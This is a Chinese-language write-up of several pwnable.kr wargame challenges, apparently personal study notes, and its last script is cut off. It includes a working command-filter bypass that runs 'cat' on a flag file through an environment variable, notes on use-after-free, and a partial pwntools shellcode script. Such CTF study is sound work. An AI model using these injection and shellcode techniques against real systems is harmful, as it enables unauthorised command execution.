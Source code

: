 目标机器是tmp文件下不可‘ls’命令，但是文件确实存在可以盲打。


# cmd1 

题目考点：

环境变量，通过$符号来获取

通关参数：

cmd1@ubuntu:~$ env x='/bin/cat /home/cmd1/flag' ./cmd1 "\$x"

mommy now I get what PATH environment is for :)

通关密码


类似shellshock漏洞

# uaf 

漏洞：use after free 漏洞

考点： C++ 中虚函数内存排布，C++中堆释放顺序，堆的调用利用顺序，这些都是基础知识。


# memcpy 


参考：https://etenal.me/archives/972#C18

源码：http://pwnable.kr/bin/memcpy.c

https://github.com/Macmod/pwnable-writeups/blob/master/toddlers/memcpy.md
需要加入 8 字节，需要尝试

http://pwdme.cc/2017/04/19/pwnable-kr-toddlers-bottle-3/
这个里面对 int（（x + 4)/8+1），可能是有错误，但是整个数据还是很多

漏洞：需要输入的参数是16字节对齐，因此需要输入的参数是16的倍数。
但是关于对齐还是不是很懂，还需要调试一下，才能明白


# asm 

shellcode编写采用

https://github.com/Macmod/pwnable-writeups/blob/master/toddlers/asm.md

直接用pwntools提供的工具比较简单，加入需要自己手工写shellcode还是可以滴，但是相对比较难而已。
但是作为hacker，这个技能还是得会的。

代码贴出来：

	from pwn import *
	
	con = ssh(host='pwnable.kr', user='asm', password='guest', port=2222)
	p = con.connect_remote('localhost', 9026)
	context(arch='amd64', os='linux')
	shellcode = ''
	shellcode += shellcraft.pushstr('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong')
	